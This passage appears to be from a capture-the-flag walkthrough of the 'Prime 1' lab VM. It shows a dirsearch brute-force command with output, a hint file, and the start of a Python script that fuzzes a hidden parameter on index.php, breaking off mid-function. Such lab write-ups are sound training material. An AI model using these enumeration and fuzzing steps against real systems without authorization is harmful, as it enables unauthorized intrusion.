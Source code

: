 ```bash
```

### Web Enumeration
The only port that looks promising is 80, so I run dirsearch to brute force and find hidden files and directories.

```bash
root@kali:~$ dirsearch -x 400,401,403,404 -f -e txt,html,php -u http://192.168.179.134/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...
[11:02:15] 200 -  136B  - /index.php
[11:02:21] 200 -  147B  - /image.php
[11:02:38] 301 -  322B  - /wordpress  ->  http://192.168.179.134/wordpress/
[11:02:40] 200 -   11KB - /wordpress/
[11:02:48] 200 -  131B  - /dev
[11:02:58] 301 -  323B  - /javascript  ->  http://192.168.179.134/javascript/
[11:05:44] 200 -  412B  - /secret.txt
```
In the above output we see the secret.txt file, we request this file and we find a note giving us a clue to find the correct parameter, assigning it as value the location.txt file.


```bash
http://192.168.179.134/secret.txt
```
![](/assets/images/prime1/screenshot-1.png)

To find the hidden parameter I developed a python script to find it.

```python
#!/usr/bin/env python3

import requests,signal,sys
from colorama import init,Fore

green=Fore.GREEN
red=Fore.RED
reset=Fore.RESET

def signal_handler(sig, frame):
    print(f"{red}\rYou pressed CTRL+C{reset}")
    op=str(input("[e]xit / [c]ontinue:" ))
    if op=='e':
        sys.exit(0)
    else:
        pass

signal.signal(signal.SIGINT, signal_handler)

def req(p):
    r=requests.get(f"http://192.168.179.134/index.php?{p}=location.txt")
```